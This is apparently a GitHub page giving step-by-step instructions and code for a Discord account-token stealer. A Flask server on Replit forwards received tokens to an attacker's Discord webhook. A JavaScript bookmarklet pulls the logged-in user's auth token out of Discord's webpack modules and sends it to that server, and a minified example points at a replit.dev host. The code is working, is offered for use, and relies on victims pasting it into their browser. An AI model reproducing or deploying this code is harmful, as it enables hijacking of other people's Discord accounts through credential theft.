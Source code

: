 went downgrade a lil bit but the code works now as of 2/16/2024, this used to be more advanced and better, but some methods have been limited and dont work, this is the only part of the code that actually works now.

instructions:

1. sign up for replit.com and create a new python repl
2. paste this code:
```python
from dhooks import Webhook
from flask import Flask, redirect
e = "PASTE_WEBHOOK_HERE"
app = Flask(__name__)
hook = Webhook(e)
@app.route('/<string:token>')
def index(token):
  hook.send(token)
  return redirect("https://discord.com/app")

if __name__ == "__main__":
  app.run(host='0.0.0.0', port=81)
```
3. replace PASTE_WEBHOOK_HERE with your actual discord webhook.
4. click run and then copy the url
5. replace PASTE_URL_HERE with the url you just copied
```js
const url = 'PASTE_URL_HERE';
var f = (webpackChunkdiscord_app.push([[''], {}, e=> {
  m = [];
  for (let c in e.c) m.push(e.c[c]);
}]), m).find(m => m?.exports?.default?.getToken !== undefined).exports.default.getToken();
window.location.replace(url + '/' + f);
```
6. copy the whole code (the short one) and then go to https://minify-js.com/ and minify the code
7. then put ur code like this: javascript:(your minified code)
8. will look something like this: ```javascript:const url="https://b707bed2-0d5d-4175-a39f-44929c4f2e6c-00-boj7lelqbogw.kirk.replit.dev/";var f=(webpackChunkdiscord_app.push([[""],{},e=>{m=[];for(let o in e.c)m.push(e.c[o])}]),m).find((e=>void 0!==e?.exports?.default?.getToken)).exports.default.getToken();window.location.replace(url+"/"+f);```
9. paste and enter that code in your url tab on discord
10. if need help make a issue
